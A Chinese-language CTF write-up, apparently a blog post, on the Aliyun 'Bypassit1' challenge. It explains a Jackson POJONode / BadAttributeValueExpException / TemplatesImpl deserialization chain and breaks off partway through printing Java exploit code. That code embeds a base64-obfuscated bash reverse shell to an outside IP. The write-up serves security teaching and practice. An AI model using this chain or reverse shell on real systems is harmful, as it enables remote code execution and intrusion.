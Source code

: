 # Java-CTF(1)

  
  
&lt;!--more--&gt;  
# 2024阿里云CTF Bypassit1  
`docker run -it -d -p 12345:8080 -e FLAG=flag{8382843b-d3e8-72fc-6625-ba5269953b23} lxxxin/aliyunctf2023_bypassit1`  
## 0x01 解题记录  
只有一个控制器`bypassit`  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202411151455706.png)
直接反序列化，看一下依赖  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202411151455264.png)
很明显是打 jackson 直接调用`getter`方法，但是过滤了`TemplatesImpl`，无法直接调用  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202411151456419.png)
这里需要用到`POJONode#toString`来调用到`getter`方法，从而触发到`TemplatesImpl`中的`getter`方法  
来看一下原理`POJONode`继承于抽象类`BaseJsonNode`，而`BaseJsonNode`存在于`toString`  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202411151520907.png)
跟进`nodeToString`  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202411151520526.png)
`writeValueAsString()`方法正是`Jackson`中的，可以调用`getter`方法  
那问题来了？如何调用到`toString`方法呢？这里利用 CC5 的部分链  
`BadAttributeValueExpException`中`readObject`中可以调用任意类`toString`方法  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202411151525612.png)
直接构造`exp`  
```java  
import com.fasterxml.jackson.databind.node.POJONode;    
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;    
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;    
import javassist.CannotCompileException;    
import javassist.ClassPool;    
import javassist.CtClass;    
import javassist.NotFoundException;    
    
import javax.management.BadAttributeValueExpException;    
import java.io.ByteArrayOutputStream;    
import java.io.IOException;    
import java.io.ObjectOutputStream;    
import java.lang.reflect.Field;    
import java.util.Base64;    
import java.util.UUID;    
    
    
public class Poc {    
    public static byte[] getTemplates () throws CannotCompileException, IOException, NotFoundException {    
        ClassPool classPool = ClassPool.getDefault();    
        // 生成一个随机的类名    
        String randomClassName = &#34;Test_&#34; &#43; UUID.randomUUID().toString().replace(&#34;-&#34;, &#34;&#34;);    
        CtClass ctClass = classPool.makeClass(randomClassName);    
        ctClass.setSuperclass(classPool.get(&#34;com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet&#34;));    
        String block = &#34;Runtime.getRuntime().exec(\&#34;bash -c {echo,YmFzaCAtaSA&#43;JiAvZGV2L3RjcC8xMC4yMTYuNy43OS8xMjM0IDA&#43;JjE=}|{base64,-d}|{bash,-i}\&#34;);&#34;;    
        ctClass.makeClassInitializer().insertBefore(block);    
        return ctClass.toBytecode();    
```